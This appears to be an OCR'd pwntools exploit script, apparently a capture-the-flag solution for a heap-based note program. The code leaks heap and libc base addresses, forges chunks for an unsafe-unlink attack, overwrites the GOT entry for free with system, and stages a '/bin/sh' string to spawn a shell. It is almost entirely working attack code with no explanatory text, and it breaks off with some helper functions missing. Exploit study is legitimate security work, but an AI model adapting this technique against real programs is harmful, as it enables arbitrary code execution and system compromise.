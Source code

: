 ```python

def delete(index):
    p.recvuntil("Your choice: ")
    p.sendline("4")
    p.recvuntil("Note number: ")
    p.sendline(str(index))

def exit():
    p.recvuntil("Your choice: ")
    p.sendline("5")

#leak address
new(1, 'a')
new(1, 'a')
new(1, 'a')
new(1, 'a')

delete(0)
delete(2)

new(8, '12345678')
new(8, '12345678')

list()
p.recvuntil("0. 12345678")
heap = u64(p.recvline().strip("\x0a").ljust(8, "\x00")) - 0x1940
p.recvuntil("2. 12345678")
libcbase = u64(p.recvline().strip("\x0a").ljust(8, "\x00")) - 0x3c4b78

log.info("heap: %s" % hex(heap))
log.info("libc_base: %s" % hex(libcbase))

delete(3)
delete(2)
delete(1)
delete(0)

#double link
gdb.attach(p)
payload01  = p64(0) + p64(0x51) + p64(heap + 0x30 - 0x18) + p64(heap + 0x30 - 0x10)
payload01 += "A"*0x30 + p64(0x50) + p64(0x20)
new(len(payload01), payload01)

payload02  = "A"*0x80 + p64(0x110) + p64(0x90) + "A"*0x80
payload02 += p64(0) + p64(0x71) + "A"*0x60
new(len(payload02), payload02)
delete(2)



#change

free_got = elf.got['free']
system = libcbase + libc.symbols['system']

payload03 = p64(8) + p64(0x1) + p64(0x8) + p64(free_got) + "A"*0x40
payload04 = p64(system)

#
edit(0, 0x60, payload03)
edit(0, 0x8, payload04)

payload05 = "/bin/sh\x00"
```